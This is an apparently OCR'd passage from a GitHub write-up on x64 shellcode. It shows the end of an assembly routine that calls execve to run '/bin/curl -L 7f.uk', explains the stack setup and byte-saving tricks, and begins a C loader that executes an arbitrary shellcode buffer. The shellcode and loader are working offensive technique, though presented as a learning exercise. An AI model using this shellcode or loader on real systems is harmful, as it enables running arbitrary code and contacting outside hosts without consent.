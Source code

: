 ```assembly
        mov rsi, rsp

        ; Call execve
        syscall
```

I think this is self-explanatory - the only "complicated" part is preparing `argv` on the stack.  
The x64 calling convernsion is:
- First argument is `rdi` which should point to the string `/bin/curl`.
- Second argument is `rsi` which points to our `argv`, which is composed to four pointers to the following: `{ "/bin/curl", "-L", "7f.uk", NULL }`.
- Third argument is `rdx` which points to `envp`. We set it to be `NULL` using the `cdq` trick.

The few minor tricks besides that:
1. I first set the `execve` syscall number in `rax`. I do that not only to make `rax` hold the syscall number, but also to prepare for the next instruction (`cdq`).
2. I use `cdq` to make `rdx` zero with less bytes - it sign extends `rax` to `rdx`.

### Running the shellcode
For completeness, here's C code that runs an arbitrary shellcode:

```c
#include <unistd.h>
#include <stdio.h>
#include <sys/mman.h>

#define UNMAP(ptr, size)        do                                      \
                                {                                       \
                                        if (NULL != (ptr))              \
                                        {                               \
                                                munmap((ptr), (size));  \
                                                (ptr) = NULL;           \
                                        }                               \
                                }                                       \
                                while (0)

#define FCLOSE(fp)              do                                      \
                                {                                       \
                                        if (NULL != (fp))               \
                                        {                               \
                                                fclose(fp);             \
                                                (fp) = NULL;            \
                                        }                               \
                                }                                       \
                                while (0)

static void run_shellcode(char* buffer)
{
        int (*exeshell)() = (int (*)())buffer;
        (int)(*exeshell)();
}

int main(int argc, char** argv)
{
        FILE* fp = NULL;
        long fsize = 0;
        char* buffer = NULL;
        int (*exeshell)() = NULL;

        // Check arguments
        if (2 != argc)
        {
                printf("Invalid number of arguments: %d", argc);
                goto cleanup;
```